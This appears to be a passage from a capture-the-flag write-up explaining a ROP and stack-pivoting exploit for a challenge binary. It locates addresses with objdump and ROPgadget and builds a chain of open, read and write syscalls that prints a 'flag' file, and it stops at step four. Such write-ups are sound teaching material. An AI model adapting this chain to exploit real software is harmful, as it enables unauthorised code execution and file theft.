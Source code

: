 ## Exploit - `ROP` + stack pivoting
1. Find the address of global variable that is `fn` and `ROP`
    ```bash!
    $ objdump -d -M Intel chal | grep "<fn>"
    40189c: 48 8d 05 9d 1a 0e 00    lea 0xe1a9d(%rip),%rax # 4e3340 <fn>
    $ objdump -d -M Intel chal | grep "<ROP>"
    4018c9: 48 8d 05 90 1a 0e 00    lea 0xe1a90(%rip),%rax # 4e3360 <ROP>
    ```
    ```python!
    fn = 0x4e3340
    ROP_addr = 0x4e3360
    ```
2. Find `ROP` gadget address
    ```bash!
    $ ROPgadget --binary chal --multibr --only "pop|syscall|ret|leave" > one_gadget
    $ vim one_gadget
    ```
    ```python!
    pop_rax_ret = 0x45db87
    pop_rdi_ret = 0x4038b3
    pop_rsi_ret = 0x402428
    pop_rdx_rbx_ret = 0x493a2b
    syscall_ret = 0x4284b6
    leave_ret = 0x40190c
    ```
3. Construct `ROP` chain
    ```python!
    ROP = flat(
       # Open filename
       # fd = open("flag", 0);
       pop_rax_ret, 2,
       pop_rdi_ret, fn,
       pop_rsi_ret, 0,
       syscall_ret,

       # Read the file
       # read(fd, buf, 0x30);
       pop_rax_ret, 0,
       pop_rdi_ret, 3,    # we can oversee the fd is 3 because 0,1,2 are preserved by default
       pop_rsi_ret, fn,
       pop_rdx_rbx_ret, 0x30, 0,
       syscall_ret,

       # Write the file
       # write(1, buf, 0x30); // 1 --> stdout
       # the 2nd and 3rd argument are the same to read
       pop_rax_ret, 1,
       pop_rdi_ret, 1,
       syscall_ret,
       )
    ```
4. Write `ROP` chain to global variable(a new stack)